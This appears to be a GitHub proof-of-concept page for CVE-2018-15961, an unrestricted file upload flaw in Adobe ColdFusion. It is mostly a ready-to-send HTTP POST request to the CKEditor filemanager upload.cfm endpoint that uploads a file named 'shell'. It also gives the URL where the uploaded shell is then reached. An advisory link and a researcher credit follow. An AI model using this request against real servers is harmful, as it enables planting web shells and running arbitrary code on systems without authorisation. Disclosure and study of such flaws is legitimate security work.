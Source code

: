 # CVE-2018-15961
Unrestricted file upload in Adobe ColdFusion

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: coldfusion:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------24464570528145
Content-Length: 303
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------24464570528145
Content-Disposition: form-data; name="file"; filename="shell"
Content-Type: image/jpeg

%%%%%%%%
-----------------------------24464570528145
Content-Disposition: form-data; name="path"

shell
-----------------------------24464570528145--
```

https://helpx.adobe.com/security/products/coldfusion/apsb18-33.html
http://coldfusion:port/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell


Unrestricted file upload/Arbitrary code execution/Critical

**Pete Freitag of Foundeo CVE-2018-15961**
